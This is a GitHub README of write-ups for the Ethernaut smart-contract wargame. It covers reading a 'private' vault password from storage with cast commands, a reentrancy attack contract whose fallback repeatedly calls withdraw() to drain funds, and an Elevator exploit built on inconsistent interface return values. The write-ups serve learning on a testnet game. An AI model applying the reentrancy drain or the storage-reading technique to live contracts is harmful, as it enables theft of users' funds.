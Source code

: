 # Repo of my attack contracts for Ethernaut

## Notes

### Level 08 - Vault

This level demonstrates that all data on the blockchain is public, even if marked as `private` in Solidity.

**Steps to solve:**

1. **Get the contract's storage data**
   - Get the deployed contract address from Ethernaut
   - Use the `cast storage` command to read the value at storage slot 1 (where the password is stored)

   ```bash
   cast storage 0x7f28d1dABCcCB4d88C305Ed18499aa6A8A1F8AD2 1 --rpc-url $SEPOLIA_RPC_URL
   ```

   Result:
   ```
   0x412076657279207374726f6e67207365637265742070617373776f7264203a29
   ```

2. **Decode the password**
   - Convert the hex value to ASCII to see the actual password

   ```bash
   cast to-ascii 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
   ```

   Result:
   ```
   A very strong secret password :)
   ```

3. **Unlock the vault**
   - Call the `unlock()` function with the password as parameter

   ```bash
   cast send 0x7f28d1dABCcCB4d88C305Ed18499aa6A8A1F8AD2 "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --rpc-url $SEPOLIA_RPC_URL
   ```

### Level 10 - Reentrancy
    - The attack exploits a reentrancy vulnerability in the target contract
    - Steps of the attack:
      1. First, we donate ETH to the contract to establish a balance for our attack contract
      2. Then we call withdraw() to start withdrawing our funds
      3. When the target contract sends ETH to our attack contract, it triggers our fallback function
      4. Inside the fallback function, we recursively call withdraw() again before the target contract can update our balance
      5. This creates a loop that drains all funds from the target contract
      6. Once the target contract's balance is less than or equal to our initial donation amount, we withdraw the remaining balance

```solidity
// Key parts of the attack:
function attack() payable public {
    amount = msg.value;
    // First donate to the contract
    CONTRACT.call{value: msg.value}(abi.encodeWithSignature("donate(address)", address(this)));
    // Then withdraw to trigger the reentrancy
    CONTRACT.call(abi.encodeWithSignature("withdraw(uint256)", amount));
}

fallback() external payable {
    // Recursive call to withdraw() before balance is updated
    if (CONTRACT.balance > amount) {
        CONTRACT.call(abi.encodeWithSignature("withdraw(uint256)", amount));
    }
    else if (CONTRACT.balance <= amount) {
        CONTRACT.call(abi.encodeWithSignature("withdraw(uint256)", CONTRACT.balance));
    }
}
```

### Level 11 - Elevator
    - The attack exploits a trust issue in the Elevator contract which relies on an external interface implementation
    - The Elevator contract calls the `isLastFloor()` function of the caller contract twice, expecting consistent behavior
    - Steps of the attack:
      1. We implement the `isLastFloor()` function in our attack contract with state-changing behavior
      2. On the first call, it returns `false` to make the elevator start moving
      3. On the second call, it returns `true` to make the elevator think it reached the top floor
      4. This exploits the fact that the Elevator contract doesn't verify that the Building interface implementation is trustworthy

```solidity
// Key parts of the attack:
bool booly = false;

function attack(uint256 _floor) public {
    (bool success,) = CONTRACT.call(abi.encodeWithSignature("goTo(uint256)", _floor));
    require(success == true, "Tx reverted!");
}

function isLastFloor(uint256) external returns (bool) {
    if(booly == false) {
        booly = true;
        return false;    
    }
    else {
        return true;
    }
}
```